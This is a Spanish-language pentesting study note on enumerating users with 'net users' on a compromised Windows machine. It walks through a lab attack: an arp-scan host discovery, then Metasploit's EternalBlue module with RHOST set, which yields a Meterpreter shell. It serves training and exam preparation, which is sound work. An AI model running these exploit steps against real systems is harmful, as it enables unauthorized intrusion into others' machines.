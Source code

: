 
----
- TAG: #Enumeración #Usuarios #Sistema #Windows 
-----
## Identificación de Usuarios en una Máquina Windows Comprometida

En este apartado, aprenderemos un comando sencillo pero útil que puede ser de gran ayuda durante un examen o en situaciones de intrusión en máquinas **Windows**. Es importante conocer este comando, ya que es común que se pregunte cuántos usuarios hay dentro de una máquina comprometida.

### Comando para Listar Usuarios

El comando que utilizaremos es:

```cmd
net users
```

Este comando muestra todos los usuarios existentes en la computadora.

### Ejemplo Práctico

Ahora, aplicaremos este comando en una máquina que hayamos comprometido. Usaremos la máquina **Windows Vulnerable** mencionada en la clase anterior y nuestra máquina **Kali Linux**.

1. **Localizar la Máquina Víctima**

   Utiliza `arp-scan` para localizar la dirección IP de la máquina Windows comprometida:

```bash
arp-scan -I eth0 --localnet
```

   Copia la dirección IP de la máquina víctima.

2. **Iniciar Metasploit y Ejecutar EternalBlue**

   Inicia **Metasploit** y busca el exploit `EternalBlue` para comprometer la máquina Windows:

```bash
msfconsole
```

   Busca el exploit `EternalBlue`:

```bash
search eternalblue
```

   Usa el primer exploit que aparezca en los resultados:

```bash
use 0 
```

   Revisa las configuraciones necesarias:

```bash
show options 
```

   Configura los parámetros necesarios, incluyendo la dirección IP de la máquina Windows:

```bash
set RHOST 1.2.3.4
```

   Con las demás configuraciones predefinidas, ejecuta el exploit:

```bash
run
```

3. **Ejecutar el Comando `net users`**

   Una vez dentro de **Meterpreter**, accede a una `shell`:

```bash
shell
```

   Ejecuta el comando para listar los usuarios:

```cmd
net users
```

   Esto mostrará todos los usuarios dentro de la máquina Windows. Por ejemplo, en el caso de la máquina vulnerable utilizada, los usuarios podrían ser `Administrador`, `invitado`, y `mario`, haciendo un total de tres usuarios.

### Conclusión

El comando `net users` es una herramienta simple pero poderosa para identificar rápidamente los usuarios en un sistema Windows comprometido. Conocer y utilizar este comando puede ser clave en situaciones de examen o durante actividades de penetración.

---

